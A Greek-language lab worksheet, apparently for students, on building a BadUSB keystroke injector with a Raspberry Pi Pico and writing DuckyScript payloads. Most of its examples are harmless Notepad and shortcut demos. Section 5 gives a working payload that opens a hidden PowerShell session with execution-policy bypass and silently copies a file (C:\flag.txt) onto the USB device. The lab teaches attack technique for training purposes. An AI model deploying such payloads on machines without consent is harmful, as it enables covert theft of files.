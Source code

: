 # Εργαστήριο «USB BadUSB» με Pico‑Ducky

> Σε αυτό το εργαστήριο θα μετατρέψεις ένα Raspberry Pi Pico σε "USB πληκτρολόγιο – χακερ" (Pico‑Ducky). Θα γράψεις δικά σου payloads σε DuckyScript και θα τα δοκιμάσεις σε εικονικό ή κανονικό Windows 10 PC.

---

## 1. Τι θα κάνουμε σε 5 βήματα

1. **Φλασάρουμε** το firmware pico‑ducky στο Pico.
2. **Φτιάχνουμε** το πρώτο payload (`payload.dd`) που ανοίγει Notepad και γράφει μήνυμα.
3. **Βελτιώνουμε**: προσθέτουμε καθυστερήσεις, shortcuts και αποθήκευση αρχείου.
4. **Payload PowerShell**: διαβάζει `flag.txt` και το αντιγράφει σε USB.
5. **Challenge**: Σχεδιάζεις δικό σου σενάριο.

---

## 2. Flash του Pico‑Ducky (μία φορά)

| Βήμα   | Τι κάνεις                                                                                   |
| ------ | ------------------------------------------------------------------------------------------- |
| **1.** | Κρατάς πατημένο **BOOTSEL** και βάζεις USB → εμφανίζεται δίσκος **RPI‑RP2**.                |
| **2.** | Σύρεις του zip φακέλου στον δίσκο.                                                           |
| **3.** | Σε 2 sec εμφανίζεται νέος δίσκος **CIRCUITPY**· μέσα βλέπεις `code.py`, `payload.dd` κ.ά.   |

> ⚠️ Αν δεν δεις το CIRCUITPY: άλλαξε καλώδιο (USB Data), επανέλαβε BOOTSEL.

---

## 3. Το πρώτο σου payload

Δημιούργησε ή άνοιξε το αρχείο **`payload.dd`** στη ρίζα του CIRCUITPY· βάλε:

```duckyscript
REM Notepad demo
DEFAULT_DELAY 300
GUI r
STRING notepad
ENTER
DELAY 600
STRING Hello ROBOTONIO!
ENTER
```

1. "Εject" τον δίσκο – βγάλε & ξαναβάλ’ το Pico **χωρίς BOOTSEL**.
2. Το Notepad ανοίγει και τυπώνει το μήνυμα.

### Γρήγορα tweaks

* **Πιο αργό PC;** αύξησε τα `DELAY` (ms).
* **Greek layout;** βάλε `ALT SHIFT` πριν το `STRING notepad`.

---

## 4. Αποθήκευση αρχείου από το Notepad

```duckyscript
REM Type & save note on Desktop
DEFAULT_DELAY 250
GUI r
STRING notepad
ENTER
DELAY 700
STRING Hi! Saved from Pico‑Ducky ✌
CTRL s
DELAY 500
STRING %USERPROFILE%\Desktop\note.txt
ENTER
DELAY 800
ALT F4
```

---

## 5. PowerShell payload – Αντιγραφή flag σε USB

```duckyscript
REM Read flag & copy σε CIRCUITPY
DEFAULT_DELAY 250
GUI r
STRING powershell -NoP -W Hidden -Exec Bypass -C "`
 $f='C:\flag.txt';`
 $p=(Get-CimInstance Win32_LogicalDisk | `
     Where {$_.VolumeName -eq 'CIRCUITPY'} | `
     select -First 1 -Expand DeviceID).Substring(0,1);`
 if($p){Copy-Item $f ($p+':\\flag.txt') -Force}"
ENTER
```

*Το script τρέχει κρυφά, διαβάζει το* `C:\flag.txt` *και το αντιγράφει στο CIRCUITPY.*

---

## 6. Κοινές εντολές DuckyScript

| Κατηγορία         | Εντολή / Συντόμευση           | Παράδειγμα Ducky    | Τι κάνει                             |
| ----------------- | ----------------------------- | ------------------- | ------------------------------------ |
| **Πληκτρολόγηση** | `STRING <text>`               | `STRING Hello!`     | Πληκτρολογεί το κείμενο.             |
|                   | `ENTER`                       | `ENTER`             | Πατά Enter.                          |
|                   | `TAB`                         | `TAB`               | Επόμενο πεδίο.                       |
|                   | `BACKSPACE`                   | `BACKSPACE`         | Διαγράφει χαρακτήρα.                 |
|                   | `ESCAPE`                      | `ESCAPE`            | Κλείσιμο/Cancel.                     |
| **Συνδυασμοί**    | `CTRL <key>`                  | `CTRL s`            | Ctrl + S κ.λπ.                       |
|                   | `ALT <key>`                   | `ALT F4`            | Κλείσιμο παραθύρου.                  |
|                   | `SHIFT <key>`                 | `SHIFT TAB`         | Αντίστροφο Tab.                      |
|                   | `GUI <key>`                   | `GUI r`             | Win + R (Run).                       |
|                   | `MENU`                        | `MENU`              | Δεξί‑κλικ (Context menu).            |
| **Βελάκια**       | `UP`, `DOWN`, `LEFT`, `RIGHT` | `DOWNARROW`         | Μετακίνηση.                          |
| **Καθυστέρηση**   | `DELAY n`                     | `DELAY 500`         | Αναμονή *n* ms μετά τη γραμμή.       |
|                   | `DEFAULT_DELAY n`             | `DEFAULT_DELAY 250` | Αυτόματο delay για επόμενες εντολές. |
| **Σχόλιο**        | `REM ...`                     | `REM Demo start`    | Γραμμή σχολίου.                      |

> **Tip:** Χρησιμοποιείς `DEFAULT_DELAY 250` για «ομαλό» script και μεγαλύτερα `DELAY` στις βαριές εντολές (άνοιγμα εφαρμογής, Save As).

---

## 7. Παραδείγματα σύνθετων κινήσεων

```duckyscript
# Αποθήκευση σημείωσης στο Desktop
DEFAULT_DELAY 250
GUI r
STRING notepad
ENTER
DELAY 700
STRING Quick note from Pico‑Ducky 🦆
CTRL s
DELAY 500
STRING %USERPROFILE%\Desktop\note.txt
ENTER
ALT F4
```

---

## 8. Win + R (“Run”) – Σύντομες εφαρμογές

| Εφαρμογή            | Εντολή Run                | Περιγραφή               |
| ------------------- | ------------------------- | ----------------------- |
| **Notepad**         | `notepad`                 | Απλός editor κειμένου   |
| **Paint**           | `mspaint`                 | MS Paint                |
| **Calculator**      | `calc`                    | Υπολογιστής Windows     |
| **Chrome**          | `chrome` ή `chrome <url>` | Εκκίνηση Chrome         |
| **Edge**            | `msedge`                  | Microsoft Edge          |
| **File Explorer**   | `explorer`                | Παράθυρο φακέλων        |
| **Command Prompt**  | `cmd`                     | `cmd.exe` κονσόλα       |
| **PowerShell**      | `powershell`              | PowerShell χωρίς admin  |
| **Task Manager**    | `taskmgr`                 | Διαχειριστής εργασιών   |
| **Registry Editor** | `regedit`                 | Μητρώο Windows          |
| **Services**        | `services.msc`            | Κονσόλα υπηρεσιών       |
| **Device Manager**  | `devmgmt.msc`             | Συσκευές HW             |
| **System Info**     | `msinfo32`                | Λεπτομέρειες συστήματος |
| **Control Panel**   | `control`                 | Κλασικό πίνακας ελέγχου |
| **Windows Version** | `winver`                  | Έκδοση λειτουργικού     |
| **DirectX Diag**    | `dxdiag`                  | Διάγνωση DirectX        |

Χρησιμοποίησε τα παραπάνω για γρήγορα mini‑payloads:

* άνοιξε `calc`, πληκτρολόγησε `123*456` και πάτησε Enter·
* εκκίνησε `mspaint`, σχεδίασε smiley (με κινήσεις mouse)·
* τρέξε `winver` και πάρε screenshot (ALT PRTSC).
